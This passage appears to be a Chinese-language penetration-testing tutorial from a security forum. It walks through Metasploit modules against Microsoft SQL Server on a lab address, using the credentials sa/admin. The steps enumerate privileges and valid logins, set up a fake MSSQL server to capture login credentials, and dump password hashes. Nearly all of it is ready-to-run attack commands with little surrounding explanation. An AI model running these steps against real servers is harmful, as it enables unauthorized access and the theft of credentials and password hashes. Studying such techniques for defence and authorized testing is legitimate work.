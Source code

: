 ### 枚举mssql信息

可以看到数据库被授予了哪些权限、哪些登录可用以及其他有用的信息

```php
use auxiliary/admin/mssql/mssql_enum
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-7fb71c1f43e98b2c0b3f66493b063d3a884bd9c5.png)

### 用户枚举

查询mssql所有可以正确登录的用户

```php
use auxiliary/admin/mssql/mssql_enum_sql_login
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-de34862732f99c1b2055f8251e12b771126a3705.png)

### 捕获mssql登录

创建一个虚假mssql服务器，捕获登录时的账号密码

```php
use auxiliary/server/capture/mssql
set srvhost 192.168.3.133
exploit
```

尝试登录虚假服务器

```php
sqsh -S 192.168.3.133 -U sa -P "admin"
```

### Mssql Hash转储

```php
use auxiliary/scanner/mssql/mssql_hashdump
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-ae399ae5798facb54fc0c220e006a045557f2752.png)
